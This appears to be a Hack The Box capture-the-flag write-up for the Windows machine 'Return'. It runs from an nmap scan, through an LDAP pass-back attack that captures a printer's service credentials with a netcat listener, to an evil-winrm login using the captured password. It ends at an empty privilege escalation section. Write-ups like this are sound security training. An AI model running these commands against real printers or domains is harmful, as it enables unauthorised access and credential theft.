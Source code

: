 # Box: Return
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.88.241 -p- -v -T4```

```
Nmap scan report for 10.129.88.241
Host is up (0.42s latency).
Not shown: 65458 closed tcp ports (reset), 51 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-14 12:22:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
50865/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/14%OT=53%CT=1%CU=43018%PV=Y%DS=2%DC=T%G=Y%TM=652A84
OS:2C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=RI%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%I
OS:SR=101%TI=RD%CI=I%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=101%TI=RD%CI=RI%II=I%TS
OS:=U)SEQ(SP=105%GCD=2%ISR=101%TI=RD%CI=I%II=I%TS=U)OPS(O1=M53ANW8NNS%O2=M5
OS:3ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%W
OS:2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53ANW
OS:8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y
OS:%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF
OS:=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80
OS:%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T12:24:21
|_  start_date: N/A
|_clock-skew: 18m33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   436.16 ms 10.10.16.1
2   231.29 ms 10.129.88.241

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 14 13:06:04 2023 -- 1 IP address (1 host up) scanned in 2869.49 seconds
```
From our scan we have quite a number of ports opened. We\ll start our enumeration today from port 80


# Enumeration(Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64f03f1e-6136-4c05-afb4-b1a015eae14a)

We get this HTB Printer Admin Panel

Click on "Settings", you'll see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7d4a38d9-2c47-4c16-9eee-ab20c042f988)

We can perform something called ```LDAP Pass-back``` attack against this printer. This is a common attack against network devices, such as printers. Lets exploit this hehe


# Exploitation

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/909ef243-ec00-408a-96d2-848ec437d8e5)

In this attack we can modify this server address to our IP, then we'll get the printer to connect to us instead, which would disclose the credentials. To do this, let's use a simple Netcat listener to test if we can get the printer to connect to us. Since the default port of LDAP is 389, we can use the following command

command:```nc -lvp 389```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a9a8bd17-12c9-4120-9330-6641225a25d3)

Now, lets go back to the webpage and try to update the settings

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef37a2ca-dfcd-43bf-a09e-e431cfe2e9a3)

Checking our listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/24c3a85f-51a8-4d3e-b083-86f0db593b77)

We were able to successfully capture the creds hehe😎.

Now lets connect to this using ```evil-winrm```.

command:```evil-winrm -u svc-printer -i 10.129.88.241 -p '1edFg43012!!'```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/83d6542b-65ff-4919-bfe8-18eb19a732ae)

soft!!😂. Lets go ahead to escalate our privileges



# Privilege Escalation








































